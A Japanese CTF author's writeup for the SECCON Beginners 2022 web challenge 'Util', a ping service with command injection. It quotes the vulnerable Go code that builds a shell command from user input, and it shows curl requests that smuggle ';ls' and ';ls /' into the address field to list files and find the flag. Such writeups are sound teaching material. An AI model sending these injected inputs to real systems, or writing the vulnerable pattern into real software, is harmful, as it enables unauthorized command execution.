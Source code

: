 ```yaml
---
title: "SECCON Beginners CTF 2022【Web】Util Ironhand 作問者writeup"
description: "SECCON Beginners CTF 2022【Web】Util Ironhand 作問者writeup"
authors: [hi120ki]
tags: [CTF, SECCON, ctf4b]
slug: posts/20220605-2
---
```


SECCON Beginners CTF 2022で出題したWeb問題Util、Ironhandの作問者writeupです。

## Util (難易度 Beginner)



```
ctf4b networks社のネットワーク製品にはとっても便利な機能があるみたいです! でも便利すぎて不安かも...?
```

問題を見てみるとフォームに`127.0.0.1`など入力してcheckボタンを押すことでpingコマンドを指定したIPアドレスへ実行してくれるサービスのようです。

ソースコードを見てみると`/util/ping`へのPOSTリクエストのaddressパラメータを`ping -c 1 -W 1 指定アドレス 1>&2`に組み込んで実行しています。

```go
commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
result, _ := exec.Command("sh", "-c", commnd).CombinedOutput()

c.JSON(200, gin.H{
  "result": string(result),
})
```

フロントエンドでのチェックがOK→リクエストを送信→バックエンドで実行という流れになっているので、リクエストを直接編集することでIPアドレスチェックをバイパスし、任意のコードが実行可能になります。

```
$ curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H "Content-Type: application/json" -d '{"address":"127.0.0.1;ls"}'
{
  "result": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.080 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.080/0.080/0.080 ms\napi\npages\n"
}
```

配布ファイルのDockerfileを見てみるとフラグが`/flag_???.txt`にあるとわかるので

```
RUN echo "ctf4b{xxxxxxxxxxxxxxxxxx}" > /flag_$(cat /dev/urandom | tr -dc "a-zA-Z0-9" | fold -w 16 | head -n 1).txt
```

```
$ curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H "Content-Type: application/json" -d '{"address":"127.0.0.1;ls /"}'
{
  "result": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.069 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.069/0.069/0.069 ms\napp\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\n...\n"
}
```
